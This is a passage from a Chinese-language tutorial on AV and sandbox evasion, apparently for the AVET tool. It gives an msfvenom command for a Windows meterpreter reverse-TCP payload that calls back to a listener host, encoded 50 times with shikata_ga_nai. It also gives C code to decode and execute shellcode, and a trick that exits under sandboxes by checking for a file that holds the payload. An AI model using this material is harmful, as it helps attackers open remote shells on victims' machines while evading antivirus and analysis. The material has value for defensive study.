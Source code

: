 shellcode的加密方法还可以选择shikata_ga_nai，使用shikata_ga_nai加密50轮的参数如下：

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.2.103 lport=443 -e x86/shikata_ga_nai -i 50 -f hex -a x86 --platform Windows > sc.txt
```

**补充**：

执行shellcode的方法不唯一，这里再给出另外一种执行shellcode的示例代码：

```
void exec_shellcode(unsigned char *shellcode)
{
	((void(*)(void))&shellcode)();
}
```

shellcode的生成方式也不唯一，可以按照自己的思路生成shellcode

### 2、自己实现的加解密算法

加密对应参数为：

```
./make_avet -E
```

解密对应的代码为：

```
unsigned char* decode_shellcode(unsigned char *buffer, unsigned char *shellcode, int size)
{
	int j=0;
	shellcode=malloc((size/2));
	int i=0;
	do
	{
		unsigned char temp[3]={0};
		sprintf((char*)temp,"%c%c",buffer[i],buffer[i+1]);
		shellcode[j] = strtoul(temp, NULL, 16);
		i+=2;
		j++;
	} while(i<size);
	return shellcode;
}
```

### 3、绕过沙盒

#### (1) 使用WinAPI fopen

将shellcode保存在文件`c:\windows\system.ini`中

主程序运行时读取文件`c:\windows\system.ini`

如果在沙盒中，无法打开文件`c:\windows\system.ini`，主程序自动退出
